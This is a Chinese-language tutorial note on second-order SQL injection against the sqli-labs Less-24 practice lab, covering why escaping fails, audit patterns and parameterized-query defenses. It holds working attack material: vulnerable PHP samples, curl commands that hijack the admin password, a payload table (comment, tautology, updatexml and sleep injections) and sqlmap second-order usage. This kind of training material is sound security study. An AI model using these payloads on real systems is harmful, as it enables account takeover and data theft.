

# 04-二次注入

> 前置：[[01-Cookie注入|Cookie 注入]]（理解"输入点与执行点分离"）
>
> sqli-labs 对照：less-24（Second Order Injections）

## 一、原理

二次注入的核心矛盾：**写入时转义了引号，但存进数据库的是"原文"；读取引用时直接拼接，防护失效**。

漏洞代码两段式：

```php
// 第一阶段: 注册用户名 —— 有防护（转义），但只影响 SQL 语法，不影响存储内容
$username = $_POST['username'];
$escaped = addslashes($username);          // admin'# → admin\'#
$sql = "INSERT INTO users(username, password) VALUES('$escaped', '$pass')";
// 数据库里实际存的 username 是:  admin'#   ← 反斜杠不会存进去！

// 第二阶段: 修改密码 —— 从库中取出用户名直接拼 SQL，无任何防护
$row = mysql_fetch_assoc(mysql_query("SELECT username FROM users WHERE id=$_SESSION[id]"));
$username = $row['username'];              // admin'#
$newpass = $_POST['password'];
$sql = "UPDATE users SET password='$newpass' WHERE username='$username'";
// 实际执行: UPDATE users SET password='xxx' WHERE username='admin'#'
//                                                          ^^^^^^^^^^ 注释掉结尾引号
```

关键认知：

| 环节 | addslashes 是否有效 |
|------|--------------------|
| 写入（INSERT） | 有效——引号被转义，无法逃逸字符串 |
| 存储 | 无关——**存的是未转义的原文** |
| 读取再拼接 | 无效——取出的原文带着 `'`、`#` 直接进入新 SQL |

addslashes 防的是"这一次"的语句破坏，防不了"下一次"的拼接。**转义是语句级的临时手段，不是数据净化。**

## 二、两阶段流程图



## 三、sqli-labs less-24 对照

关卡结构：login.php / login_create.php（注册） / pass_change.php（改密）。

利用流程：

```bash
# 1. 访问注册页，注册用户名:
#    admin'#        密码随意如 123456
#    （若目标存在真实 admin 账号则效果为接管；不存在也可观察差异）

# 2. 用 admin'# / 123456 登录 —— 登录查询有防护或按原文匹配，正常通过

# 3. 进入修改密码页，填入新密码 hacked123 提交

# 4. 此时数据库里真实 admin 的密码已被改为 hacked123

# 5. 用 admin / hacked123 登录管理员账号
```

pass_change.php 的漏洞行（原型）：

```php
$username = $_SESSION['username'];         // 来自登录时从库里读出的原文 admin'#
$update = "UPDATE users SET password='$pass' WHERE username='$username' AND password='$curr_pass'";
mysql_query($update);
```

curl 复现三步：

```bash
# 注册（用户名 URL 编码: admin'# → admin%27%23）
curl -s "http://127.0.0.1/sqli-labs/Less-24/login_create.php" \
     -d "reg_username=admin%27%23&reg_password=123456&reg_key=&submit=register"

# 登录
curl -s -c jar.txt "http://127.0.0.1/sqli-labs/Less-24/login.php" \
     -d "login_username=admin%27%23&login_password=123456"

# 改密 —— 实际改掉真实 admin 的密码
curl -s -b jar.txt "http://127.0.0.1/sqli-labs/Less-24/pass_change.php" \
     -d "current_password=123456&password=hacked123&re_password=hacked123"
```

## 四、addslashes 为什么防不住

| 原因 | 说明 |
|------|------|
| 转义不改变数据 | `admin\'#` 存库时 MySQL 处理 `\'` 为字面引号，落库内容是 `admin'#` |
| 防护没有传递性 | 二次触发点的代码是另一个人写的另一段，往往没再做转义 |
| mysql_real_escape_string 同样如此 | 只要第二段拼接时不再处理，结果一样 |
| utf-7/GBK 场景更糟 | 编码错位还会引入宽字节问题（见 [[09-综合训练\|09-综合训练]]） |

审计特征口诀：**先 escape 后拼接**——看到某输入经过 addslashes 入库，又在其他文件被取出后直接放进 SQL 字符串，就是二次注入候选。

### 落库内容验证

不确定转义是否入库时，直接查库确认：

```sql
-- 注册 admin'# 后在数据库中验证
SELECT username FROM users WHERE username LIKE '%#%';
-- 输出: admin'#   ← 原文入库（没有反斜杠），二次注入条件成立
-- 若输出: admin\'# 则说明连转义符一起存储了（少见），payload 要相应调整
```

### 审计代码特征

```php
// 特征一: 写入处有防护
$name = addslashes($_POST['username']);
mysql_query("INSERT INTO users(username) VALUES('$name')");

// 特征二: 其他文件读取后直接拼接 —— 二次注入触发点
$row = mysql_fetch_array(mysql_query("SELECT username FROM ... WHERE id=$id"));
mysql_query("UPDATE users SET password='$pass' WHERE username='$row[username]'");
// ↑ 两处代码不在同一文件、防护不一致 → 高危
```

grep 快筛：

```bash
rg -n "addslashes|mysql_real_escape_string" --type php | rg -i "insert"
rg -n '\$row\[.?username' --type php | rg -i "update|select.*from.*where"
```

## 五、通用利用流程与 payload 库

注册阶段可入库的恶意用户名（取决于第二阶段的 SQL 形态）：

| 注册值 | 第二阶段 SQL 形态 | 效果 |
|--------|------------------|------|
| `admin'#` | `UPDATE ... WHERE username='$name'` | 改密命中 admin（less-24） |
| `admin'-- -` | 同上 | 同上（`--` 注释） |
| `' or '1'='1` | `SELECT ... WHERE username='$name'` | 匹配全部用户 |
| `',(select group_concat(...))#` | INSERT 多列场景 | 报错/联合带出数据 |
| `1' and updatexml(1,concat(0x7e,version()),1)#` | 任意拼接处 | 直接报错回显 |

第二阶段若无报错回显，可用时间盲注确认存在性：

```
注册: admin' and sleep(5)#
触发: 任意引用该用户名的操作响应延迟约 5 秒即坐实
```

### sqlmap 的二阶注入支持

sqlmap 原生不擅长二次注入（写入与触发分离），需要手工指定：

```bash
# --second-url 指定触发点
sqlmap -u "http://目标/register" \
       --data="username=payload*&password=123" \
       --second-url="http://目标/profile" --batch
```

但实际操作中 payload 的注册时机、会话绑定都要手工配合，多数情况下**手注效率高于 sqlmap**。

## 六、防御

| 措施 | 说明 |
|------|------|
| 参数化查询全程覆盖 | **写入和读取两端都用 prepared statement**，这是唯一根治方案 |
| 不要依赖转义做净化 | addslashes/escape 只解决当前语句语法问题，不是数据消毒 |
| 白名单校验用户名格式 | 注册时就拒绝含 `'` `"` `#` `-` 的用户名（业务上通常合理） |
| ORM 的参数绑定 | 注意 ORM 原生查询/raw query 仍是拼接，别混用 |
| 密码修改按主键定位 | `UPDATE users SET password=? WHERE id=?` 用不可变主键而非 username |

```php
// 防御正例: 两端全部参数化，转义不再出现在代码里
$stmt = $pdo->prepare("INSERT INTO users(username, password) VALUES(?, ?)");
$stmt->execute([$username, $hash]);

$stmt2 = $pdo->prepare("UPDATE users SET password = ? WHERE id = ?");
$stmt2->execute([$new_hash, $_SESSION['uid']]);   // 按 id 定位，username 再恶意也无害
```

---
**返回** [[mysql结构总目录|mysql结构 总目录]]
